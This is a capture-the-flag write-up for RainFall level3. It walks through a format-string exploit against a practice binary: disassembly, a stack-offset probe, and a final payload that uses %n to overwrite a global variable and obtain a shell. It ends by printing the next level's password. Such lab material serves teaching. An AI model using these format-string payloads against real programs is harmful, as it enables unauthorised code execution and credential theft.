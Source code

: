 # Level 3

```bash 
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3

```

## Testing the program

```bash
$ ./level3
a
a
```

The program displays the input


## Learning more

```bash
(gdb) disas main
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

The main calls a function 'v'. 

```bash
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

We see that the value at address 0x804988c is being put in the eax container. 
This value is then compared to 64 (Ox40 in hexadecimal).

```bash
0x080484da <+54>:	mov    0x804988c,%eax
0x080484df <+59>:	cmp    $0x40,%eax
```

Using gdb we can check the name of the variable at 0x804988c
```bash
(gdb) info variables
All defined variables:
[...]
0x0804988c  m
```

If it corresponds to 64 a call to system is made.

```bash
0x08048513 <+111>:	call   0x80483c0 <system@plt>
```


We can also see a call to printf() function wich is vulnerable to exploit.

```bash
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```

## Getting access to the shell

We are going to modify the value of the variable located at 0x804988c so that it equals 64, in order for the program to launch the system to ("bin/sh"). 


### Finding where is our input

First we need to know where our input is located on the stack so we can manipulate the addresses later on. 

```bash 
$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```

61616161 = "aaaa", in hexadecimal.
So our input is at the 4th slot (%4$x) in the stack. 

### Injecting m address

We want to write in the address 0x0804988c, so we pass it as little endian at the beginning of our payload. 

```bash
$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
? 200 b7fd1ac0 b7ff37d0 804988c
```

### Writing into the memory 

%n allows us to write, in an address, the number of characters that have been printed. 
```bash
printf("AAAAA%n", addr);
```
will write 5 (the number of chars before %n) to addr.


### Reaching the 64 value 

We want %n to write 64 in the address 0x804988c.

However we have already 4 characters for the address, so we only need 60 chars to reach the total. 

Final payload : 
```bash
$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
```

Explanation :
```plaintext
\x8c\x98\x04\x08 → adresse de m
"A" * 60 → padding
"%4$n" → écrit le total (64) à l'adresse au 4e emplacement dans la stack (notre adresse injectée)
```

```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami 
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```